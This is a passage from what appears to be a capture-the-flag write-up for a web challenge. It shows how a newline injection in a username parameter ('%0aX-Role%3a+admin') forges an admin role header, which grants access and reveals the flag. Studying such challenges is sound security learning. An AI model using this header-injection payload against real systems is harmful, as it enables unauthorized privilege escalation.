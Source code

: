 `http://10.69.1.11:5100/verify?username=1234`

like this

and it would be logged in a page called /status that i found while dirbusting

`http://10.69.1.11:5100/status`

```
ROLE
----
[none] Unauthorized

LOGS
----
2024-07-08 11:15:09,190 - INFO -
Server: BaseHTTP/0.6 Python/3.9.19
Date: Mon, 08 Jul 2024 11:15:09 GMT
Content-type: text/html

2024-07-08 11:15:09,458 - INFO -
Server: BaseHTTP/0.6 Python/3.9.19
Date: Mon, 08 Jul 2024 11:15:09 GMT
Content-type: image/png

2024-07-08 11:15:09,616 - INFO -
Server: BaseHTTP/0.6 Python/3.9.19
Date: Mon, 08 Jul 2024 11:15:09 GMT
Content-type: image/vnd.microsoft.icon

2024-07-08 11:15:13,442 - INFO -
Server: BaseHTTP/0.6 Python/3.9.19
Date: Mon, 08 Jul 2024 11:15:13 GMT
Content-type: text/plain
X-Role: none
X-Username: 1231

2024-07-08 11:17:59,686 - INFO -
Server: BaseHTTP/0.6 Python/3.9.19
Date: Mon, 08 Jul 2024 11:17:59 GMT
Content-type: text/plain
X-Role: none
X-Username: 1231
```

after some basic enumeration i decided to inject some newlines to see how they worked inside the page. And it seemed like they were injecting successfully.

To exploit this bug i simply injected a new X-Role with the admin role and hoped for the best, and it actually worked!

`%0aX-Role%3a+admin`

```
ROLE
----
[admin] Access granted. Auth Link: /verify/auth/b54809755c600191a7eb56f625e53712 
```

`NTRLGC{L3T5_5PL1T_TH15!}`

# prologue

that's it! thank you for reading!
